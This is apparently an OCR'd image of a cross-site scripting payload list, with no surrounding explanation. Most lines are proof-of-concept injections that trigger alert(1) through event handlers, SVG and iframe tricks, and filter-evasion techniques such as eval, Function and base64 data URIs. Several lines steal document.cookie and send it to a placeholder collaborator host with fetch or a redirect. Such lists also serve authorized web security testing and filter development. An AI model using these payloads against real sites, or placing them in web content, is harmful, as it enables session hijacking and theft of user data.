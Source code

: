 </script><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg/onload=alert(1)>
<svg><animateTransform onbegin=alert(1)>
<svg><set attributeName=x to=y begin=0 onbegin=alert(1)>
<iframe src="javascript:alert(1)">
<math href="javascript:alert(1)">CLICK
<isindex type=image src=1 onerror=alert(1)>
"><iframe/onload=alert(1)>
"><body onload=alert(1)>
"><details open ontoggle=alert(1)>
"><video src=1 onerror=alert(1)>
"><object data=1 onerror=alert(1)>
"><embed src=1 onerror=alert(1)>
<svg><script>alert(1)</script>
<marquee onstart=alert(1)>
"><form><button formaction=javascript:alert(1)>CLICK
<svg><foreignObject><iframe srcdoc="<script>alert(1)</script>">
<iframe srcdoc="<script>alert(1)</script>">
"><link rel=stylesheet href=data:text/css,*{animation-name:alert} @keyframes alert{from{opacity:0;}to{opacity:1;}}
"><img src=x onerror=confirm(1)>
"><img src=x onerror=prompt(1)>
"><img src=x onerror=print()>
"><img src=x onerror=top.alert(1)>
<video><source onerror="alert(1)">
"><input autofocus onfocus=alert(1)>
"><textarea autofocus onfocus=alert(1)>
"><select autofocus onfocus=alert(1)>
<iframe srcdoc="<svg onload=alert(1)>">
<script>eval('ale'+'rt(1)')</script>
<script>setTimeout('alert(1)',100)</script>
<script>Function('alert(1)')()</script>
<script>top </script>
"><img src=1 onerror=alert(document.domain)>
<img src="1" onerror="fetch('https://yourcollab.com', {method:'POST',body:document.cookie})">
<svg/onload=fetch('https://yourcollab.com?cookie='+document.cookie)>
"><svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
"><style>@keyframes x{}</style><div style="animation-name:x" onanimationstart="alert(1)">
"><meta http-equiv="refresh" content="0;url=javascript:alert(1)">
<iframe src="javascript:alert(1)">
javascript:alert(1)
"><a href="javascript:alert(1)">Click
"><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click
"><img src="javascript:alert(1)">
<img src=x:confirm(1) onerror=eval(src)>
javascript:eval('alert(1)')
"><svg/onload=confirm(1)>
"><svg/onload=print()>
"><svg/onload=top.alert(1)>
"><svg/onload=Function('alert(1)')()>
"><svg/onload=eval('alert(1)')>
"><img src=1 onerror=fetch('https://yourcollab.com/?cookie='+document.cookie)>
<svg><script>top.location='https://yourcollab.com/?'+document.cookie</script></svg>
javascript:fetch('https://yourcollab.com',{method:'POST',body:document.cookie})
<svg/onload=document.write('<script>alert(1)</script>')>
<svg/onload=document.body.innerHTML='<img src=x onerror=alert(1)>'>
<svg/onload="this.setAttribute('onload','alert(1)')">
" autofocus onfocus=alert(1)
' autofocus onfocus=alert(1)
</textarea><script>alert(1)</script>
</select><img src=x onerror=alert(1)>
</option><script>alert(1)</script>
"><svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
"><svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)">
</title><script>alert(1)</script>
<svg><style>*{animation-name:x} @keyframes x{}</style><div onanimationstart=alert(1)>
"><audio src onerror=alert(1)>
"><table background="javascript:alert(1)">
"><img src="x" onerror=top.location='https://yourcollab.com?cookie='+document.cookie>
</h1><iframe srcdoc="<script>alert(1)</script>">
<script src="data:text/javascript,alert(1)"></script>
